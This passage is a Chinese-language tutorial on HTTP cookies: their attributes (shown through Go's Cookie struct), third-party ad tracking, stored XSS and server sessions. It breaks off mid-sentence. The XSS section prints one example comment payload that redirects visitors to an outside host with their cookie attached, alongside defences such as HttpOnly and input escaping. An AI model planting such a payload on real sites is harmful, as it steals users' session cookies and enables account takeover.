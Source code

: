 http请求是无状态的，但是我们需要去保持一些状态，于是诞生了cookie头部

cookie可以是请求头部，也可以是响应头部

# cookie
通常服务器会给响应报文添加 Set-Cookie:.... 头部，来添加cookie

在服务器选择返回的cookie通常有多个属性

```
    type Cookie struct {
        Name  string //key-val
        Value string

        Path       string    // optional，当请求匹配上该路径时才携带cookie
        Domain     string    // optional，当请求该域名时才携带cookie
        Expires    time.Time // optional，持久性cookie，这个时间点后，浏览器才会销毁cookie
        RawExpires string    // for reading cookies only

        // MaxAge=0 means no 'Max-Age' attribute specified.,会在退出浏览器后删除该cookie
        // MaxAge<0 means delete cookie now, equivalently 'Max-Age: 0'，马上，现在就给删了
        // MaxAge>0 means Max-Age attribute present and given in seconds，经过多少秒后失效
        MaxAge   int
        Secure   bool   //true，cookie只有在https加密的情况下才会被发给客户端
        HttpOnly bool  //客户端无法通过js获取cookie，但是并不能完全防止xss攻击
        SameSite SameSite   //
        Raw      string
        Unparsed []string // Raw text of unparsed attribute-value pairs，不对转义过的键值对进行解析
    }
```

    Set-Cookie:key="i am a cookie"; Max-Age=10; HttpOnly

如果不设置Max-Age或值为0，则浏览器获取cookie后会暂存，下次再访问获取到cookie的domain+path网页，会携带cookie，直到浏览器被关闭后才清除

如果值>0，则会缓存，直到过期被删除

浏览器通过Cookie头部携带接受的和缓存的cookie发送给服务器

# 第三方cookie
假设a、b、c 三个页面植入了 d 公司的广告，你请求这三个页面都会再去请求 d 服务器的一个广告图片

1. 你请求了a页面，解析页面后去请求d服务器的一个图片，d服务器返回给你一个cookie：user="kanggege";page="a";domain="advertisement.com"
2. 后来你请求b页面，同样要请求一个d服务器的广告图片,cookie：user="kanggege";page="b";domain="advertisement.com"
3. c页面,cookie：user="kanggege";page="c";domain="advertisement.com"

通过识别你的身份和你访问网页的标识，可以知道你的访问记录，更偏向于访问哪种类型的网站，从而给你推送对应的广告

甚至追踪你所有的访问记录

# 跨站脚本XSS
假设有一个论坛网站，我在下面留言

    <script>window.location=http://abc.com?cookie=docuemnt.cookie</script>

我的留言被存入数据库，并再其他人访问时从数据库查询出来，并加载到页面中，则该脚本生效，我就获取到了访问者的cookie

一般cookie会存储登录状态，这是我就可以用这个cookie伪装他的身份登录

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

最好还是要将从用户得到的信息在存入数据库之前进行转义，这样更安全

# session
通过客户端的cookieid可以在服务器上维护一个唯一的session，对应这个用户

所谓session就是一个数据结构，类似于map\[key]data，cookie就是key，通过key得到data，这个data可以存入任何数据或取出已经存入的数据

所以可以通过session维护用户的登录操作，具体实现如下：

1. 接受倒一个请求，获取请求中request的cookie值，如果能获取到cookieid，则用户已经登录，通过cookieid获取session，从session中获取用户身份信息，否则用户未登录
2. 跳转用户登录，验证账号密码，response中设置cookieid，为cookieid创建session，将session中存入一个数据(例如：userid)保存用户登录状态
3. 单点登录：如果用户使用其他浏览器(没有cookieid)，或者在其他主机登录，总之没有cookieid，则